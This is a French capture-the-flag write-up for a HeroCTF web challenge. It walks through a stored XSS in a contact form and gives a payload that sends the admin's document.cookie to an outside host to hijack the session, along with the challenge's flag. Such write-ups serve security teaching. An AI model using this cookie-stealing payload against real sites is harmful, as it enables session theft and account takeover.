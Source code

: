 # Contact Me !

### Catégorie

Web

### Description

Un petit développeur a mis en place un serveur où vous pouvez le contacter.
Malheureusement, une des pages n'est pas accessible, et j'ai vraiment envie de savoir ce qu'elle cache... Vous pouvez le faire pour moi ?

http://challs.heroctf.fr:3010/

Format : Hero{flag}

### Auteur

Worty

### Solution

On arrive sur une page qui nous propose de laisser un commentaire à l'administrateur pour qu'il le lise plus tard.<br/>
Pourquoi pas tenter d'afficher une alerte javascript pour voir si une XSS est possible ?

Payload : <script>alert(1);</script><br/>
Quand la page se réactualise, l'alert s'affiche, il s'agit bien ici d'une faille XSS!

Le but du challenge est de pouvoir accéder à la page /admin.php, il va donc falloir voler le cookie de session de l'administrateur.<br/>
Pour se faire, nous allons redirigé l'administrateur vers notre serveur et lui faire écrire ses cookies dans un fichier de log que nous pourrons consulter.<br>

Payload : <script>document.location.href="https://worty.alwaysdata.net/cookies.php?c="+document.cookie</script><br/>
Personnellement, je passe par PHP pour écrire le cookie de l'administrateur, le contenu de mon script se trouve dans le fichier cookies.php de ce répertoire git.<br/>

Une fois que l'admin est passé sur notre lien, on récupère son cookie de session.<br/>
Rendez vous sur http://challs.heroctf.fr:3010/admin.php , je change mon cookie de session par celui de l'administrateur, j'actualise !

### Flag

Hero{b3_c4r3ful_w1th_xss_!!}